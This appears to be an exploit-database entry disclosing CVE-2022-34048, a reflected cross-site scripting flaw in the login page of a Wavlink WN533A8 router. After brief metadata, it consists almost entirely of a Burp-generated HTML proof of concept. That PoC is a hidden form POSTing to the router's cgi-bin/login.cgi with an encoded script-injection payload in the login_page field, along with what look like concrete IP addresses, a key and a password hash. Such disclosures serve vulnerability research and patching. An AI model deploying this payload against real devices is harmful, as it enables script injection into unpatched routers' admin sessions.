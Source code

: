 # Exploit Title: wavelink WN533A8 reflected xss through POST request
# Date: 2022-06-12
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: M33A8.V5030.190716
# Vendor home page : wavlink.com
# Authentication Required: No
# CVE : CVE-2022-34048

# Tested on: Windows



# Poc code
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://IP_ADDRESS/cgi-bin/login.cgi" method="POST">
      <input type="hidden" name="newUI" value="1" />
      <input type="hidden" name="page" value="login" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="langChange" value="0" />
      <input type="hidden" name="ipaddr" value="196&#46;219&#46;234&#46;10" />
      <input type="hidden" name="login&#95;page" value="x&quot;&#41;&#59;alert&#40;9&#41;&#59;x&#61;&#40;&quot;" />
      <input type="hidden" name="homepage" value="main&#46;shtml" />
      <input type="hidden" name="sysinitpage" value="sysinit&#46;shtml" />
      <input type="hidden" name="wizardpage" value="wiz&#46;shtml" />
      <input type="hidden" name="hostname" value="59&#46;148&#46;80&#46;138" />
      <input type="hidden" name="key" value="M94947765" />
      <input type="hidden" name="password" value="ab4e98e4640b6c1ee88574ec0f13f908" />
      <input type="hidden" name="lang&#95;select" value="en" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
